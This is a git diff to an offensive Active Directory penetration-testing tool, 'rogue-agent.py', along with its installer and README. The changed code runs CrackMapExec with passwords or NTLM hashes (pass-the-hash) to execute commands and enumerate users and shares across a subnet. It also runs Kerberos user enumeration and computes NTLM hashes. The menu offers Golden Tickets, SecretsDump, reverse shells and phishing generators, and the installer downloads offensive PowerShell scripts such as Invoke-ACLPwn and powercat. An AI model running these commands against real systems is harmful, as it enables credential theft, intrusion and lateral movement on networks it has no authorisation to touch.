

TREADSTONE

diff --git a/rogue-agent.py b/rogue-agent.py
@@ -172,7 +172,7 @@ def command(variable):
    return
  
 def prompt():
-   selection = input("\nPress ENTER to continue...")
+   null = input("\nPress ENTER to continue...")
    return
    
 def wipeTokens(VALD):
@@ -561,12 +561,12 @@ def options():
    print('\u2551' + "(02) Re/Set REMOTE   IP (13) Compile Exploits (24) Net View (35) Look up SecIDs (46) KerberoFilter (57) *BloodHound (68) Editor PASS (79) Hydra  SSH (90) SSH      " + '\u2551')
    print('\u2551' + "(03) Re/Set LIVE  PORTS (14) Start HTTPServer (25) Services (36) Sam Dump Users (47) KerberosBrute (58) *BH  ACLPWN (69) Editor HASH (80) Hydra  WEB (91) SSHKeyID " + '\u2551')
    print('\u2551' + "(04) Re/Set WEBSITE URL (15) Start SMB Server (26) AT  Exec (37) REGistry Hives (48) Kerberoasting (59) SecretsDump (70) Editor HOST (81) Hydra  SMB (92) Telnet   " + '\u2551')
-   print('\u2551' + "(05) Re/Set USER   NAME (16) WhoIs DNS SERVER (27) DCOMExec (38) Find EndPoints (49) Kerbero Spray (60) CrackMapExe (71) GenSSHkeyID (82) Hydra  POP (93) Netcat   " + '\u2551')
+   print('\u2551' + "(05) Re/Set USER   NAME (16) WhoIs DNS SERVER (27) DCOMExec (38) Find EndPoints (49) ASREPRoasting (60) CrackMapExe (71) GenSSHkeyID (82) Hydra  POP (93) Netcat   " + '\u2551')
    print('\u2551' + "(06) Re/Set PASS   WORD (17) Dig   DNS SERVER (28) PS  Exec (39) Enum End Point (50) PASSWORD2HASH (61) PSExec HASH (72) GenListUser (83) Hydra  TOM (94) SQSH     " + '\u2551')
-   print('\u2551' + "(07) Re/Set NTLM   HASH (18) Recon DNS SERVER (29) SMB Exec (40) RpcClient Serv (51) HASHs Sprayer (62) SmbExecHASH (73) GenListPass (84) MSF TOMCAT (95) MSSQL    " + '\u2551')
+   print('\u2551' + "(07) Re/Set NTLM   HASH (18) Recon DNS SERVER (29) SMB Exec (40) RpcClient Serv (51) HASHS Sprayer (62) SmbExecHASH (73) GenListPass (84) MSF TOMCAT (95) MSSQL    " + '\u2551')
    print('\u2551' + "(08) Re/Set TICKET NAME (19) Dump  DNS SERVER (30) WMI Exec (41) SmbClient Serv (52) Pass the HASH (63) WmiExecHASH (74) GenPhishCod (85) MSF RSHELL (96) MySQL    " + '\u2551')
    print('\u2551' + "(09) Re/Set DOMAIN NAME (20) Nmap Live  PORTS (31)          (42) Smb Map SHARES (53) Silver Ticket (64) Remote Sync (75) AutoPhisher (86) Evil WinRm (97)          " + '\u2551')
-   print('\u2551' + "(10) Re/Set DOMAIN  SID (21) Nmap PORTService (32)          (43) Smb Dump Files (54) Golden Ticket (65) RSync Dumps (76) Dir Searchs (87) RemDesktop (98)          " + '\u2551')
+   print('\u2551' + "(10) Re/Set DOMAIN  SID (21) Nmap PORTService (32)          (43) Smb Dump Files (54) Golden Ticket (65) RSync Dumps (76) DIR Searchs (87) RemDesktop (98)          " + '\u2551')
    print('\u2551' + "(11) Re/Set SHARE  NAME (22) Nmap Sub DOMAINS (33)          (44) SmbMount SHARE (55) Golden DC PAC (66) NTDSDECRYPT (77) Nikto Scans (88) FreeRDPX11 (99) Exit     " + '\u2551')
    print('\u255A' + ('\u2550')*163 + '\u255D')
    return
@@ -885,10 +885,11 @@ while True:
                         if USER[x][:5] != "Error":
                            USER[x] = spacePadding(USER[x], COL3)
                            HASH[x] = ""
-                           HASH[x] = dotPadding(HASH[x], COL4)                           
-                           write1.write(USER[x].rstrip(" ") + "\n")
-                           write2.write(HASH[x].rstrip(" ") + "\n")                                                         
-                           print(colored(USER[x],colour6))
+                           HASH[x] = dotPadding(HASH[x], COL4)
+                           if USER[x][:1] != " ":
+                              write1.write(USER[x].rstrip(" ") + "\n")
+                              write2.write(HASH[x].rstrip(" ") + "\n")                                                         
+                              print(colored(USER[x],colour6))
                else:
                   print("[+] Unable to enumerate domain users...")         
       prompt()
@@ -1353,7 +1354,7 @@ while True:
       checkParams = testOne()      
       
       if checkParams != 1:
-            print("[*] Attempting to enumerate live ports, please wait as this may take sometime...")
+            print("[*] Attempting to enumerate live ports, please wait as this can take sometime...")
             command("ports=$(nmap " + IP46 + " -p- --min-rate=1000 -T4 " + TIP.rstrip(" ") + " | grep ^[0-9] | cut -d '/' -f 1 | tr '\\n' ',' | sed s/,$//); echo $ports > PORTS.tmp")
             PTS = linecache.getline("PORTS.tmp", 1).rstrip("\n")
             POR = spacePadding(PTS, COL1)
@@ -1379,7 +1380,7 @@ while True:
       if checkParams != 1:
          if POR[:5] != "EMPTY":
             print("[*] Scanning specified live ports only, please wait...")
-            command("nmap " + IP46 + " -p " + POR.rstrip(" ") + " -sC -sV " + TIP.rstrip(" "))
+            command("nmap " + IP46 + " -p " + PTS + " -sC -sV " + TIP.rstrip(" "))
          else:
             print("[*] Fast scanning all ports, please wait...")
             command("nmap " + IP46 + " -T4 -F " + TIP.rstrip(" "))
@@ -2001,17 +2002,18 @@ while True:
       
       if checkParams != 1:
          print("[*] Enumerating remote server, please wait...")
-         command("nmap " + IP46 + " -p 88 --script=krb5-enum-users --script-args=krb5-enum-users.realm=\'" + DOM.rstrip(" ") + ", userdb=" + dataDir + "/usernames.txt\' " + TIP.rstrip(" ") + " >> users.tmp")         
-         command("sed -i '/@/!d' users.tmp")
+         command("nmap " + IP46 + " -p 88 --script=krb5-enum-users --script-args=krb5-enum-users.realm=\'" + DOM.rstrip(" ") + ", userdb=" + dataDir + "/usernames.txt\' " + TIP.rstrip(" ") + " >> users.tmp")
+
+         command("sed -i '/@/!d' users.tmp")							# PARSE FILE 1
          command("sort -r users.tmp > sortedusers.tmp")        
           
-         with open("sortedusers.tmp", "r") as read, open("validusers.tmp", "w") as parse:
+         with open("sortedusers.tmp", "r") as read, open("validusers.tmp", "w") as parse:	# PARSE FILE 2
             for username in read:
                username = username.replace("|     ","")
                username = username.replace("|_    ","")
                username, null = username.split("@")
                if username != "":
-                  parse.write(username + "\n")           
+                  parse.write(username + "\n")                             
                          
          count = len(open('validusers.tmp').readlines())   
                  
@@ -2032,11 +2034,10 @@ while True:
                         
             with open(dataDir + "/usernames.txt", "w") as write1, open(dataDir + "/hashes.txt", "w") as write2, open(dataDir + "/tokens.txt", "w") as write3:
                for x in range(0, maxUser):
-                  if USER[x] != "":
+                  if USER[x][:1] != " ":
                      write1.write(USER[x].rstrip(" ") + "\n")
                      write2.write(HASH[x].rstrip(" ") + "\n")
-                     write3.write(VALD[x].rstrip(" ") + "\n")
-                     
+                     write3.write(VALD[x].rstrip(" ") + "\n")                     
       prompt()
       
 # ------------------------------------------------------------------------------------- 
@@ -2159,7 +2160,11 @@ while True:
 # -------------------------------------------------------------------------------------
 
    if selection == '50':
-      if PAS[:2] != "''":
+      if PAS[:2] == "''":
+         print("[-] Password has not been specified...")
+         checkParams = 1
+
+      if checkParams != 1:    
          NTM = hashlib.new("md4", PAS.rstrip(" ").encode("utf-16le")).digest()
          NTM = binascii.hexlify(NTM)
          NTM = str(NTM)
@@ -2169,11 +2174,9 @@ while True:
          for x in range(0, maxUser):
             if USER[x].rstrip(" ") == USR.rstrip(" "):
                HASH[x] = NTM.rstrip(" ")
+
+         print("[+] Created hash value " + NTM + "...")
          NTM = spacePadding(NTM, COL1)
-         wipeTokens(VALD)
-      else:
-         print("[-] Password has not been specified...")
-         
       prompt()
 
 # ------------------------------------------------------------------------------------- 
@@ -2462,9 +2465,10 @@ while True:
                USER[x] = get1[:COL3]
                HASH[x] = get4[:COL4]
                USER[x] = spacePadding(USER[x], COL3)
-               HASH[x] = spacePadding(HASH[x], COL4)                           
-               command("echo " + USER[x].rstrip(" ") + " >> " + dataDir + "/usernames.txt")
-               command("echo " + HASH[x].rstrip(" ") + " >> " + dataDir + "/hashes.txt")           
+               HASH[x] = spacePadding(HASH[x], COL4)
+               if USER[x][:1] != " ":
+                  command("echo " + USER[x].rstrip(" ") + " >> " + dataDir + "/usernames.txt")
+                  command("echo " + HASH[x].rstrip(" ") + " >> " + dataDir + "/hashes.txt")           
          else:      
             print("[+] No users were found. check the domain name is correct...")               
       prompt()
@@ -2480,36 +2484,38 @@ while True:
    if selection =='60':
       checkParams = testTwo()
       
-      if checkParams != 1:
-         print("[*] Enumerating, please wait...")     
-                
-         if PAS[:2] != "''":         
-            print("[+] Finding exploitable machines on the same subnet...\n")            
-            command("crackmapexec winrm " + TIP.rstrip(" ") + "/24")                     
-           
-            print("\n[+] Trying specified windows command...\n")
-            command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p " + PAS.rstrip(" ") + " -x whoami")
-           
-            print("\n[+] Trying to enumerate users and shares...\n")  
-            command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p " + PAS.rstrip(" ") + " --users")
-            command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p " + PAS.rstrip(" ") + " --shares")
-         else:
-            if NTM[:1] != " ":
-               print("[i] Using HASH value as password credential")
-               print("[+] Finding exploitable machines on the same subnet...\n")
-               command("crackmapexec winrm " + TIP.rstrip(" ") + "/24")         
-           
-               print("\n[+] Trying specified windows command...\n")
-               command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -H :" + NTM.rstrip(" ") + " -x 'whoami /all'")
-           
-               print("\n[+] Trying to enumerate users and shares...\n")  
-               command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -H :" + NTM.rstrip(" ") + " --users")
-               command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -H :" + NTM.rstrip(" ") + " --shares")
-            else:
-               print("[-] Both Password and Hash value have not been specified...")
-               
-      prompt()
+      if (PAS[:2] == "''") and (NTM[:5] == "EMPTY"):
+         print("[-] Both Password and Hash value have not been specified...")
+         checkParams = 1
+      
+      if (checkParams != 1) and (PAS[:2] != "''"):
+         if "5985" in PTS:
+            print("[+] Finding exploitable machines on the same subnet...\n")
+            command("crackmapexec winrm " + TIP.rstrip(" ") + "/24")
+            
+         if "445" in PTS:
+            print("\n[+] Enumerating users...\n")
+            command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p '" + PAS.rstrip(" ") + "' --users --jitter 5")      
+            print("\n[+] Enumerating shares...\n")
+            command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p '" + PAS.rstrip(" ") + "' --shares --jitter 5")
+            checkParams = 1
 
+      if checkParams != 1:
+         print("[i] Using HASH value as password credential...")  
+         
+         if "5985" in PTS:
+            print("[+] Finding exploitable machines on the same subnet...\n")
+            command("crackmapexec winrm " + TIP.rstrip(" ") + "/24")
+         
+         if "445" in PTS:
+            print("\n[+] Enumerating users...\n")
+            command("crackmapexec  smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -H :" + NTM.rstrip(" ") + " --users")
+            print("\n[+] Enumerating shares...\n")
+            command("crackmapexec  smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -H :" + NTM.rstrip(" ") + " --shares")
+      
+      exit(1)	# FOR SOME REASON GET EOF ERROR HERE ???   
+      prompt()
+   
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub

diff --git a/install.py b/install.py
@@ -93,7 +93,6 @@ else:
    bar()
 
 os.chdir("ROGUEAGENT")
-bar()
 
 with open("banner0.txt","w") as banner:
    banner.write("\t\t\t\t\t\t ____   ___   ____ _   _ _____      _    ____ _____ _   _ _____           \n")
@@ -272,7 +271,9 @@ if not os.path.exists("lovelypotato.ps1"):
 else:
    bars(11)
 
-if not os.path.exists("jawsenum.ps1"):
+if not os.path.exists("aclpwn.ps1"):
+   os.system("wget 'https://raw.githubusercontent.com/fox-it/Invoke-ACLPwn/master/Invoke-ACLPwn.ps1' -O aclpwn.ps1 >> log.tmp 2>&1")
+   bar()
    os.system("wget 'https://github.com/411Hall/JAWS/raw/master/jaws-enum.ps1' -O jawsenum.ps1 >> log.tmp 2>&1")
    bar()
    os.system("wget 'https://github.com/besimorhino/powercat/raw/master/powercat.ps1' -O powercat.ps1 >> log.tmp 2>&1")
@@ -290,7 +291,7 @@ if not os.path.exists("jawsenum.ps1"):
    os.system("wget 'https://github.com/Kevin-Robertson/Powermad/raw/master/Powermad.ps1' -O powermad.ps1 >> log.tmp 2>&1")
    bar()
 else:
-   bars(8)
+   bars(9)
 
 
 if not os.path.exists("win_chisel64.exe"):

diff --git a/README.md b/README.md
@@ -27,8 +27,8 @@ A comprehensive, yet sleek and portable python script file that enables cyber se
 
 | LANGUAGE  | FILENAME       | MD5 Hash                         | Description     | Version    |
 |------     |-------         | -------                          | ----            |  ----       |
-| python3   | install.py     | 50b5ad00c5144df3122f4391dc27a6ae | Install Program | TREADSTONE |
-| python3   | rogue-agent.py | cc31b97b31a401c4a38ec150f5350ba0 | Command Centre  | TREADSTONE |
+| python3   | install.py     | 0b54a33ad7c60c953a1fcb5b29c81a0f | Install Program | TREADSTONE |
+| python3   | rogue-agent.py | 6772bb413f19fa5e7583c2f1f23e5191 | Command Centre  | TREADSTONE |
        
 ## CONSOLE DISPLAY AND VIDEO LINK
 
